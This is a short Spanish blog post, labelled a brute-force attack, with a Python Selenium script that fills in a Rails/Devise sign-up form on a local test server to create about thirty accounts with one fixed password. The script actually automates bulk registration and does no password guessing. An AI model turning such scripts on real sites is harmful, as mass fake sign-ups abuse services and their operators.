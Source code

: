 ```yaml
---
layout: post
title:  "Python - Ataque fuerza bruta"
date:   2016-05-01 00:37:19 -0300
categories: jekyll update
---
```


To install pip, securely download <a src="https://bootstrap.pypa.io/get-pip.py">get-pip.py</a>


```
python get-pip.py
```

To install selenium


```
pip install selenium
```

Script brutal force, el ejemplo esta realizado para funcionar sobre rails 4 con devise instalado por defecto.

{% highlight python %}
#!/usr/bin/python

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
def bForce():
	driver = webdriver.Firefox()
	driver.get("http://192.168.0.3:3001/users/sign_up")
	for i in range(59, 90):
		user = driver.find_element_by_xpath("//*[@id=\"user_email\"]")
		user.send_keys("rr"+str(i)+"@rrr.com")
		password = driver.find_element_by_xpath("//*[@id=\"user_password\"]")
		password.send_keys("12345678")
		pass_confirm = driver.find_element_by_xpath("//*[@id=\"user_password_confirmation\"]")
		pass_confirm.send_keys("12345678")
		driver.find_element_by_name("commit").click()
		close = driver.find_element_by_xpath("/html/body/li/a")
		close.click()
		driver.get("http://192.168.0.3:3001/users/sign_up")
	driver.close()
bForce()


{% endhighlight %}